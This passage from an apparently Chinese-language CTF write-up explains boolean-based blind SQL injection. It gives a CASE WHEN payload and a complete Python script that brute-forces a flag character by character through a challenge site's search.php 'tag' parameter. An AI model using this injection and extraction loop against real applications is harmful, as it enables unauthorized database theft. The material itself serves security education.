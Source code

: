 但其實仔細觀察會發現我們不需要 sleep，可以利用 case when 的回傳值做原本的 filter 功能，從結果中推測哪個條件成立，像這樣：

``` sql
(select case when (content like "c%") then 1 else 10 end from flag)
```

當條件（`content like 'c%'`）成立時，回傳值就是 1，反之則是 10，而如果是 1 的話，回傳的 JSON 就會有資料，10 的話則沒有，因此我們可以根據有或沒有，得知條件是否成立。

接著，我們就來寫一下這種最簡單做法的腳本。

``` python
# exploit-search.py
import requests
import datetime
import json

host = 'https://od-php.herokuapp.com/sql'
char_index = 0
char_set = 'abcdefghijklmnopqrstuvwxyz}_'
result = 'cymetrics{'
while True:
  if char_index >= len(char_set):
    print("end")
    break

  char = char_set[char_index]
  payload = f'(select case when (content like "{result}{char}%") then 1 else 10 end from flag)'
  response = requests.get(f'{host}/search.php?tag={payload}')
  print("trying", char)
  if response.ok:
    data = json.loads(response.text)
    if len(data) > 0:
      result += char
      print(result)
      char_index = 0
    else:
      char_index += 1

  else:
    print('error')
    print(response.text)
    break

```

簡單來說就是每個字元不斷去試，試到有為止，簡單暴力但有用，跑個三五分鐘大概就能跑出完整的結果，執行過程會像是這樣：
